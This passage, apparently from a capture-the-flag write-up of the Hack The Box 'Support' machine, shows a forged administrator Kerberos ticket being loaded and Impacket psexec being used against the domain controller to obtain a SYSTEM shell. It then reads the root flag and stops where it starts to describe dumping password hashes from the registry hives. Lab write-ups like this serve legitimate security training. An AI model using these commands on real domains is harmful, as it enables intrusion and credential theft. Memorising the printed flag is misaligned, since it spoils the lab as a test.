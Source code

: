 Now we export it and check:

```sh
┌──(root㉿kali)-[~/htb/support]
└─# export KRB5CCNAME=administrator.ccache

┌──(root㉿kali)-[~/htb/support]
└─# klist
Ticket cache: FILE:administrator.ccache
Default principal: administrator@support.htb

Valid starting       Expires              Service principal
08/10/2022 14:58:10  08/11/2022 00:58:10  www/dc.support.htb@SUPPORT.HTB
        renew until 08/11/2022 14:58:13
```

## Impacket PSExec

Finally we can use that Kerberos ticket to connect as the administrator user:

```sh
┌──(root㉿kali)-[~/htb/support]
└─# python3 /usr/share/doc/python3-impacket/examples/psexec.py -k -no-pass support.htb/administrator@dc.support.htb -dc-ip 10.10.11.174
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Requesting shares on dc.support.htb.....
[*] Found writable share ADMIN$
[*] Uploading file ubdUnXDm.exe
[*] Opening SVCManager on dc.support.htb.....
[*] Creating service FLKe on dc.support.htb.....
[*] Starting service FLKe.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.859]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

## Root Flag

Let's get the root flag to complete the box:

```text
C:\Windows\system32> type c:\users\administrator\desktop\root.txt
6827054ff3ad6fa0e808270351be323c
```

## Password Hashes

Copy sam and system registry hive over to Kali then use secretsdump to get the hashes:
